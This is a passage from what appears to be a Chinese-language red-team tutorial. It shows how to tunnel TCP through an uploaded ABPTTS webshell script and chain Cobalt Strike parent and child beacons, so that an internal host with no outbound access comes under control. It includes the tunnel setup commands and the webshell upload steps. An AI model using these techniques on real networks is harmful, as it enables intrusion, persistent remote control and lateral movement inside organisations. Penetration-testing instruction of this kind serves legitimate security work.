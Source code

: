 * 通过正向的http隧道构建tcp连接

```
# 配置abptts运行环境

# 注意windows安装pycrypto库需要先安装依赖http://aka.ms/vcpython27

pip install httplib2
pip install pycrypto

# 生成server端脚本

python abpttsfactory.py -o server

# 上传server端脚本到web服务器，客户端运行以下命令

python abpttsclient.py -c server/config.txt -u "http://192.168.168.121/abptts.aspx" -f 127.0.0.1:7777/127.0.0.1:8888

# abptts客户端监听127.0.0.1:7777，通过http://192.168.168.121/abptts.aspx这个http隧道，将tcp连接127.0.0.1:7777转发到web服务器网络下的127.0.0.1:8888
```

* 创建反向的listener



* 生成父beacon



* 上传父beacon到abptts客户端执行上线



* 创建payload为TCP beacon的listener



* 生成stageless的子beacon



* 将生成的子beacon通过webshell上传执行

```
# 可以通过webshell查看网络监听，确保子beacon执行成功

netstat -ano | findstr 127.0.0.1:8888
```

* 在父beacon中连接ABPTTS的监听IP和端口



* 成功上线不能出网的webshell内网主机



### 2、上线仅ICMP协议出网的内网主机

#### （1）背景
